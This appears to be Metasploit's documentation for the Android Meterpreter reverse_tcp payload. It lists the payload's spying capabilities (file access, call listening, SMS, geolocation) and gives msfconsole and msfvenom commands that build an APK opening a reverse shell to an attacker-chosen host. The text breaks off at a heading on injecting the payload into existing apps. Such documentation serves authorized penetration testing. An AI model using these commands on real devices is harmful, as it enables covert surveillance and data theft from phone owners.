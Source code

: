 The android/meterpreter/reverse_tcp payload is a Java-based Meterpreter that can be used on an
Android device. It is still at an early stage of development, but there are so many things you can
do with it already.

The Android Meterpreter allows you to do things like take remote control the file system, listen to phone calls, retrieve or send SMS messages, geo-locate the user, run post-exploitation modules, etc.

## Vulnerable Application

You can test android/meterpreter/reverse_tcp on these devices:

**Android Emulator**

An emulator is the most convenient way to test Android Meterpreter. You can try:

* [Android SDK](http://developer.android.com/sdk/index.html#Other) - Creates and manages your emulators from a command prompt or terminal.
* [Android Studio](http://developer.android.com/sdk/installing/index.html?pkg=studio) - Allows you to manage emulators more easily than the SDK.
* [GenyMotion](https://www.genymotion.com/download/) - Requires an account. 
* [AndroidAVDRepo](https://github.com/dral3x/AndroidAVDRepo) - Contains a collection of pre-configured emulators.


**A real Android device**

Having a real Android device allows you to test features or vulnerabilities you don't necessarily
have from an emulator, which might be specific to a manufacturer, carrier, or hardware. You also
get to test it over a real network.


## Verification Steps

Currently, the most common way to use Android Meterpreter is to create it as an APK, and then
execute it.

To create the APK with msfconsole:

```
msf > use payload/android/meterpreter/reverse_tcp 
msf payload(reverse_tcp) > set LHOST 192.168.1.199
LHOST => 192.168.1.199
msf payload(reverse_tcp) > generate -t raw -f /tmp/android.apk
[*] Writing 8992 bytes to /tmp/android.apk...
msf payload(reverse_tcp) >
```

### To create the APK with msfvenom:

```
./msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```

### To inject meterpreter into an existing APK with msfvenom:
